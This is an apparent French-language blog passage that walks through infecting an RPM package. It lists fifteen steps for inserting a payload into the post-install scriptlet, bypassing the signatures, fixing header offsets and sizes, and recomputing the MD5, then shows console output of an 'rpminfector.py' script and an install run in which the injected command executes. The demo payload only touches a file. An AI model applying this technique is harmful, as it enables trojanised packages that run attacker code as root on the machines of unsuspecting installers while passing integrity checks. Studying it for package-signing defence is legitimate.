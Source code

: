 1. Ouvrir le fichier RPM
2. Passer 104 octets (les 96 octets du `lead` + 8 premiers octets du `Signature Header`)
3. Lire le nombre d'éléments dans la section Signature
4. Lire la taille du _store_ de la Signature (somme totale de la taille des éléments)
5. Lire tous les `rpmhdrindex` de la Signature
6. Repérer celui correspondant à `RPMSIGTAG_SIZE` (1000) qui spécifie la taille que doit faire le Header + Payload
7. Repérer celui correspondant à `RPMSIGTAG_MD5` (1004) qui spécifie le hash MD5 128 bits du Header + Payload
8. Réécrire la table des `rpmhdrindex` en bypassant les signatures qui nous embêtent
9. Réécrire la valeur `RPMSIGTAG_SIZE` en y ajoutant `size(payload)`
10. Lire l'entête de la section Header, en extraire le nombre d'éléments et la taille de son _store_
11. Récupérer l'offset quand le tag est `RPMTAG_POSTIN`
12. Ajouter `size(payload)` à l'offset de toutes les entrées situées après celle correspondant à notre script de post-install
13. Augmenter la taille du store de Header de `size(payload)`
14. Insérer notre payload
15. Recalculer `md5(Header + Payload)` et remplacer la valeur dans la section Signature

Le code est ici : [RPM Infector](/assets/data/rpminfector.py)  

On est reparti :  

```console
# python rpminfector.py
######################
Payload size is 28
Found 7 items in the Signature
Signature store size is 216
Rewriting signature headers
Length of header + payload is 123472
New size is 123500
Found 61 items in header
Store size is 4208
Post-Installation is at offset 642
Calculating new headers
Fixing store size to 4236
Injecting payload
Fixing md5sum to 59bb0a37045eb4e956ec893553cac173
Injection done !

# rpm -Uvvh netcat-0.7.1-1.i386.rpm
D: ============== netcat-0.7.1-1.i386.rpm
D: Taille attendue:       123940 = tête(96)+sigs(344)+pad(0)+données(123500)
D: Taille actuelle:       123940
(...)
########################################### [100%]
(...)
D:   install: %post(netcat-0.7.1-1.i386) asynchronous scriptlet start
D:   install: %post(netcat-0.7.1-1.i386)        execv(/bin/sh) pid 6732
+ /sbin/install-info /usr/share/info/netcat.info.gz /usr/share/info/dir
+ touch /tmp/stuckhereagain
(...)
```
